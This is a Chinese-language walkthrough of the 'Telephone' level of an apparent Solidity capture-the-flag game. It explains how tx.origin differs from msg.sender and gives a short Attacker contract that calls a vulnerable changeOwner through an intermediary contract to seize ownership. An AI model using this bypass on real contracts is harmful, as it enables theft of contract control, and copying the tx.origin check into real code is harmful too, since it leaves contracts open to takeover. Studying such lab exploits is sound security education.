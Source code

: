 # Telephone

Telephone这一关考察了solidity中对于`msg.sender`和`tx.origin`的区别。让我们先来看这个合约的代码

## 合约代码
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```
 
## 代码分析
这个合约中改变`owner`使用的是`changeOwner`函数，这个函数中有一个判断，如果`tx.origin`不等于`msg.sender`，那么就可以改变`owner`。但是如果当我们直接call `changeOwner`函数的时候，`tx.origin`和`msg.sender`是相等的，这样就会导致我们没有办法改变`owner`。这里需要提及的一个知识点是：
假设我们有两个合约`A`和`B`, Alice调用了合约`A`的一个函数，那么在这个情况下，`tx.origin`是Alice，并且`msg.sender`也是Alice。但如果Alice调用了合约`A`的一个函数，这个函数又调用了合约`B`的一个函数，那么在这个情况下，`tx.origin`是Alice，但是`msg.sender`是合约`A`。
根据以上的知识点，我们只需要创建一个合约，用这个合约来调用Telephone合约的`changeOwner`函数，就可以改变`owner`了。

## 攻击代码
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attacker {
    constructor(address _target){
        Telephone(_target).changeOwner(msg.sender);
    }
}

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

```
## 攻击过程
1. 部署Telephone的新实例，获得合约地址
2. 部署Attacker合约，将Telephone合约地址作为constructor的参数，这样就将owner改成了我们的钱包地址了
